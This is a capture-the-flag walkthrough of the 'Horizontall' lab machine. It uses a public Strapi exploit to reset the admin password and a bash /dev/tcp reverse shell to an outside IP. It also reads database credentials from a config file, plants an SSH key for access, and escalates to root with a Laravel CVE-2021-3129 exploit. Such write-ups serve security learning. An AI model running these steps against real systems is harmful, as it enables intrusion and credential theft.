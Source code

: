 # Horizontal

## Open ports

- 22
- 80 

- Enumerating dirs gave me nothing so I jumped to enumering subdomains

- Doing `~/go/bin/gobuster vhost -u http://horizontall.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt` I was able to find `Found: api-prod.horizontall.htb (Status: 200) [Size: 413]`

- Enumerating dirs on api-prod.horizontall.htb I was able to find 

```bash
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60]
/reviews              (Status: 200) [Size: 507]
/.                    (Status: 200) [Size: 413]
/ADMIN                (Status: 200) [Size: 854]
/Users                (Status: 403) [Size: 60]
/Reviews              (Status: 200) [Size: 507]
```

- `http://api-prod.horizontall.htb/admin/init` gives Strapi version

- `https://www.exploit-db.com/exploits/50239` found exploit do Strapi CMS 3.0.0-beta.17.4

- Running the exploit i could recover the admin passowrd

```bash
[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQzNDA3NjYxLCJleHAiOjE2NDU5OTk2NjF9.RPKktFT8wzNi6enWDO0QnGoSF02Za078TrC8PODeS5I
```

- Doing `bash -c 'bash -i >& /dev/tcp/10.10.15.102/9999 0>&1'` inside the exploit I could get a rev shell
- Using `python3 -c 'import pty;pty.spawn("/bin/bash")'` to get a better shell and did `export TERM=xterm` and now we are strapi user

- Found sql creds while enumerating files

```bash
strapi@horizontall:~/myapi/config/environments/development$ cat database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

- Doing `netstat -tulpn | grep LISTEN` found this 

```bash
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1876/node /usr/bin/
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

- Port 8000 looks interesting so I need to ssh port forwarding but first i did `curl 127.0.0.1:8000` and got this

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">

        <title>Laravel</title>
    </head>
    <body class="antialiased">
        <div class="relative flex items-top justify-center min-h-screen bg-gray-100 dark:bg-gray-900 sm:items-center sm:pt-0">
                <div class="mt-8 bg-white dark:bg-gray-800 overflow-hidden shadow sm:rounded-lg">
                    <div class="grid grid-cols-1 md:grid-cols-2">
                        <div class="p-6">

                            <div class="ml-12">
                                <div class="mt-2 text-gray-600 dark:text-gray-400 text-sm">
                                    Laravel has wonderful, thorough documentation covering every aspect of the framework. Whether you are new to the framework or have previous experience with Laravel, we recommend reading all of the documentation from beginning to end.
                                </div>
                            </div>
                        </div>

                        <div class="p-6 border-t border-gray-200 dark:border-gray-700 md:border-t-0 md:border-l">
                            <div class="flex items-center">
                                <svg fill="none" stroke="currentColor" stroke-linecap="round" stroke-linejoin="round" stroke-width="2" viewBox="0 0 24 24" class="w-8 h-8 text-gray-500"><path d="M3 9a2 2 0 012-2h.93a2 2 0 001.664-.89l.812-1.22A2 2 0 0110.07 4h3.86a2 2 0 011.664.89l.812 1.22A2 2 0 0018.07 7H19a2 2 0 012 2v9a2 2 0 01-2 2H5a2 2 0 01-2-2V9z"></path><path d="M15 13a3 3 0 11-6 0 3 3 0 016 0z"></path></svg>
                                <div class="ml-4 text-lg leading-7 font-semibold"><a href="https://laracasts.com" class="underline text-gray-900 dark:text-white">Laracasts</a></div>
                            </div>

                            <div class="ml-12">
                                <div class="mt-2 text-gray-600 dark:text-gray-400 text-sm">
                                    Laracasts offers thousands of video tutorials on Laravel, PHP, and JavaScript development. Check them out, see for yourself, and massively level up your development skills in the process.
                                </div>
                            </div>
                        </div>

                        <div class="p-6 border-t border-gray-200 dark:border-gray-700">
                            <div class="flex items-center">
                                <svg fill="none" stroke="currentColor" stroke-linecap="round" stroke-linejoin="round" stroke-width="2" viewBox="0 0 24 24" class="w-8 h-8 text-gray-500"><path d="M7 8h10M7 12h4m1 8l-4-4H5a2 2 0 01-2-2V6a2 2 0 012-2h14a2 2 0 012 2v8a2 2 0 01-2 2h-3l-4 4z"></path></svg>
                                <div class="ml-4 text-lg leading-7 font-semibold"><a href="https://laravel-news.com/" class="underline text-gray-900 dark:text-white">Laravel News</a></div>
                            </div>

                            <div class="ml-12">
                                <div class="mt-2 text-gray-600 dark:text-gray-400 text-sm">
                                    Laravel News is a community driven portal and newsletter aggregating all of the latest and most important news in the Laravel ecosystem, including new package releases and tutorials.
                                </div>
                            </div>
                        </div>
                    <div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
                            Laravel v8 (PHP v7.4.18)
                    </div>
                </div>
            </div>
        </div>
    </body>
</html>
```

- So searching for Lavarel v8 PHP v7.4.18 in google I found this `https://github.com/nth347/CVE-2021-3129_exploit.git` but before using this be sure you have php installed in your machine

- So before exploiting I need to get SSH and port forwarding to reach the laravel app

```bash
ssh-keygen
store in ./key
cat key.pub and copy to clipboard
mkdir ~/.ssh inside horizontall machine
echo "paste the public key" > ~/.ssh/authorized_keys
chmod 6000 key from your machine
ssh -i key -L 8000:127.0.0.1:8000 strapi@horizontall.htb from your machine
```

- Now I can do `http://localhost:8000` and find the laravel app, so now its time to exploit and got root

- Using the exploit I got the root flag

![image](https://user-images.githubusercontent.com/12052283/151637871-710ee87c-7437-4499-8dd3-5e444732ac66.png)
